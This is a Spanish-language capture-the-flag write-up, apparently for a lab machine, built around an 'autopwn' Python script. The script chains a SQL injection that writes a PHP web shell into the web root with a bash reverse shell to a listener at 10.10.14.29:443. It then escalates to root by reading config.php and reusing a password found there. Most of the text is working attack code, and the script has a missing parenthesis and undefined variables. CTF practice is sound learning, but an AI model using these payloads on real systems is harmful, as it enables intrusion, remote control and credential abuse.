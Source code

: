 ```python
main_url = "http://%s/" % ip_address
lport = 443

def createFile():

    data_post = {
        'username': 'caa',
        'country': """Brazil' union select "<?php system($_REQUEST['cmd']);?>" into outfile /var/www/html/%s-- -""" % (filename)
    }

    r = requests.post(main_url, data=data_post)

def getAccess():
    data_post = {
        'cmd': "bash -c 'bash -i >& /dev/tcp/10.10.14.29/443 0>&1'"
    }

    r = requests.post(main_url + "%s" % filename, data=data_post

if __name__ == '__main__':
    createFile()
    try:
        threading.Thread(target=getAccess, args=()).start()
    except Exception as e:
        log.error(str(e))
    shell = listen(lport, timeout=20).wait_for_connection()
    shell.interactive()
```

 lanzamos el script

```bash
python autopwn.py 10.10.11.116 setenso.php
```

Y ganamos acceso a la maquina. Como usuario www-data podemos leer la flag.

## Privilege Escalation {-}

### Rootear la maquina {-}

```bash
id
ls -la /var/www/html
cat /var/www/html/config.php
```

Aqui encontramos una contraseña. Intentamos ponerla para root

```bash
su root
Password: uhc-9qual-global-pw

whoami

#Output
root
```

Ya somos root y podemos leer la flag.
